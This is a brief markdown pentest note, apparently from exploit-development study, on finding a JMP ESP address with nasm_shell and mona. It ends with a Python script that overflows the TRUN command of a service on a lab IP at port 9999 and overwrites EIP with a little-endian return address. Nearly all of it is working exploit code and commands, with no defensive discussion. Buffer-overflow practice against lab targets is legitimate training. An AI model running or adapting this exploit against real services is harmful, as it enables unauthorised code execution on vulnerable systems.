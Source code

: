 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

6-Finding the Right Module

~~~bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
~~~

Search NASM for “JMP ESP” (minus the quotes). (\xff\xe4)

~~~cmd
!mona modules
~~~

~~~cmd
!mona find -s "\xff\xe4" -m module.ext
~~~

~~~python
#!/usr/bin/python
import sys, socket

#EIP->JMP ESP = "625011AF" -- Must be inserted backwards for "little indian"

eipown = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + eipown))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()

~~~

